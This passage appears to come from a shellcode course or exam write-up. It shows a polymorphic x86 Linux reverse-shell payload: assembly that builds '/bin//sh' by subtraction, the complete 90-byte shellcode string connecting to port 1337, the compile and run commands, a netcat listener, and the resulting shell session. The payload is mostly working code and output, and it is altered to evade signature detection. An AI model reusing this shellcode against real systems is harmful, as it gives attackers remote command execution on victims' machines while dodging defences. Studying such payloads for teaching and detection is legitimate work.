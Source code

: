 ```ASM
loop:
 mov    al,0x2b
 add al, 0x14
 int    0x80
 dec    ecx
 jns    loop

 mov    al,0xd
 sub al, 2
 inc    ecx
 push   ecx
 mov edx, 0x01020304
 mov esi, 0x69753233
 sub esi, edx
 push esi
 mov esi, 0x6f6b6533
 sub esi, edx
 push esi
 mov    edx,ecx
 mov    ebx,esp
 int    0x80
```

## Compilation

Before running the shellcode, a listener is started on port 1337.

```
$ nc -lv 1337
```

Compilation is the same as usual. However a warning is set because of junk code.

```sh
$ nasm -f elf32 reverse-poly.nasm 
reverse-poly.nasm:19: warning: label alone on a line without a colon might be in error
$ ld -N -z execstack -o reverse-poly reverse-poly.o
$ bash ~/exam/get-shellcode.sh reverse-poly
"\x6a\x66\x58\x6a\x01\x5b\x99\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x40\xf8\x66\x68\x05\x39\x48\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x99\xb0\x2b\x04\x14\xcd\x80\x49\x79\xf7\xb0\x0d\x2c\x02\x41\x51\xba\x04\x03\x02\x01\xbe\x33\x32\x75\x69\x29\xd6\x56\xbe\x33\x65\x6b\x6f\x29\xd6\x56\x89\xca\x89\xe3\xcd\x80"
$ leafpad shellcode.c 
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  90
```

The reverse shell is open:

```
$ nc -lv 1337
Connection from 127.0.0.1 port 1337 [tcp/*] accepted
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

It works, new size of the shellcode is 90 (121.6% of the original size):
```sh
$ echo "scale=3; 90/74*100" |bc
121.600
```
